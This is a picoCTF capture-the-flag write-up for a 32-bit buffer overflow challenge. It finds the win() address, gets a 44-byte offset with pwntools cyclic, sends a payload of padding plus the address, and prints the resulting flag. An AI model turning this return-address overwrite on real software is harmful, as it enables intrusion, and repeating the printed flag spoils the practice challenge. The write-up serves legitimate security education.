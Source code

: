# URL
https://play.picoctf.org/practice/challenge/258?category=6&page=3

# Challenge:
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using nc saturn.picoctf.net 64721

# Work:

* Running GDB and looking through the functions

<img width="1152" height="700" alt="image" src="https://github.com/user-attachments/assets/0285e48f-0909-4fce-8419-eca6bf7ed511" />

* The address of the win() function is 0x080491f6

<img width="1671" height="73" alt="image" src="https://github.com/user-attachments/assets/d1c996ec-d89e-4213-82c8-91902ab5ab08" />

* Use cyclic from pwn to generate a string (i.e, when we don't know the buffer length)

```
>>> print(cyclic(200))
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
>>> 
```

<img width="1690" height="501" alt="image" src="https://github.com/user-attachments/assets/a3a4d37d-46f6-4b09-a186-52fdcc903f3d" />

* The offset is 44 bits
```
>>> print(cyclic_find(0x6161616c))
44
```

* With this knowledge, we can craft a payload!

```
>>> "A"*44
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x80491f6)
b'\xf6\x91\x04\x08'
```

* Inputting 44 A's along with helo outputs helo
<img width="1269" height="731" alt="image" src="https://github.com/user-attachments/assets/82a39eaf-07d9-4fe1-9845-9cc1997930c0" />

* Now, instead of hello, we do ```\xf6\x91\x04\x08```

```
r <<< $(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
```
<img width="1160" height="98" alt="image" src="https://github.com/user-attachments/assets/704d9f8d-2c67-4ad8-b6db-e1cce9db0fcf" />

* This code successfuly jumps to the win() address so we know this payload works
* Now test this payload against the server
<img width="1383" height="110" alt="image" src="https://github.com/user-attachments/assets/fc2fb10b-c798-4e70-a26f-1fb6776f5f85" />

* That's the flag! picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}


